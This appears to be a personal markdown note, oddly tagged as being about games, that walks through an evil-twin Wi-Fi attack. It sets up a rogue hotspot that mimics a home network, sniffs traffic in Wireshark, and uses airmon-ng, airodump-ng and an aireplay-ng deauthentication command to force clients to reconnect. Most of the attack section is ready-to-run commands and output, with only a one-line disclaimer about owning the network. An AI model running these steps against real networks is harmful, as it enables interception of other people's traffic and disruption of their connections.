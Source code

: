 ```yaml
---
tags:
  - games
  - roguelike
  - game-development
  - gaming
---
```





# Rogue Trading Notes

> Disclaimer: I think it goes without saying that you should only be doing this sort of caper on networks you own. But if nothing else it should disuade you from using public Wi-Fi networks.

Download the latest [Kali Linux ISO](https://www.kali.org/downloads/) and create a [bootable USB drive](https://docs.kali.org/downloading/kali-linux-live-usb-install). Restart your computer and boot into Kali via the BIOS.

You need two network connections so tether your phone with a cable leaving the built-in Wi-Fi for your rogue access point.

_Settings > Wi-Fi > options > Turn On Wi-Fi Hotspot..._

Run `nmtui` and edit the hotspot credentials to match your home network.

## Capturing packets
Capturing packets really is as simple as running Wireshark on the Wi-Fi network interface. Try adding a Wireshark filter and visit https://turpin.dev on your compromised device just so you have some known text to search for.

```text
frame contains "turpin"
```

And now we wait for a new device to connect... actually, even established connections re-negotiated periodically but we can make it happen on demand.

## Forcing a reconnection
We _could_ wait but we can also kick out existing sessions by sending a malformed message to the genuine access point.

You'll need two Wi-Fi connections for this: one for the hotspot, one to send malformed packets. So procure a USB-to-Wi-Fi adapter.

List your network interfaces.

```bash
ip a
```

If the built-in Wi-Fi is the hotspot, let's insert the USB Wi-Fi adapter and put it into monitor mode.

```bash
airmon-ng start wlan1
```

Check your network interfaces again and you'll see it has a "mon" suffix. Now see what devices are out there.

```bash
airodump-ng wlan1mon --manufacturer
```

`airodump-ng` lists access points and clients.

```text
CH 2 ][ Elapsed: 30 s ][ 2019-11-02 14:06

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

A0:BD:CD:8F:D0:2A -66 39 225 100 11 130 WPA2 CCMP PSK pleasedto

BSSID STATION PWR Rate Lost Frames Probe

(not associated) 5C:AA:FD:25:40:DD -64 0 - 0 28 4 Sonos_fLNwUn2QJ
```

Deauthenticate the target.

```bash
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 wlan1
```

See the [aircrack documentation](https://www.aircrack-ng.org/doku.php?id=deauthentication).

## Tidying up after yourself
When you're done take the network interface out of monitor mode and restart your network. But you can just turn off if you don't care. Should the Kali screensaver kick in the default root password is "toor" (root backwards).

```bash
airmon-ng stop wlan1mon
systemctl restart network-manager.service
```
